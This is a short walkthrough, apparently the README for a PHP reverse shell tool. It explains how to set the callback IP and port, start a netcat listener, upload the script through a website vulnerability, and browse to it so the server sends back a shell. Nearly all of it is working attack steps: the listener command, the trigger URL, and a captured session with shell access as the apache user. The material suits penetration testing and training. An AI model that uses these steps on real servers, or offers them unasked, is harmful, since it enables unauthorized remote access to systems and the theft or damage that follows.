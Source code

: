 # Walk Through
## Modify the source

To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:
```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

## Get Ready to catch the reverse shell

Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):
```
$ nc -v -n -l -p 1234
```

## Upload and Run the script

Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):
```
http://somesite/php-reverse-shell.php
```

Enjoy your new shell

If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:
```
$ nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58012
Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
 16:59:28 up 39 days, 19:54,  2 users,  load average: 0.18, 0.13, 0.10
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:10m  0.01s /bin/sh
uid=81(apache) gid=81(apache) groups=81(apache)
sh: no job control in this shell
sh-3.2$

```
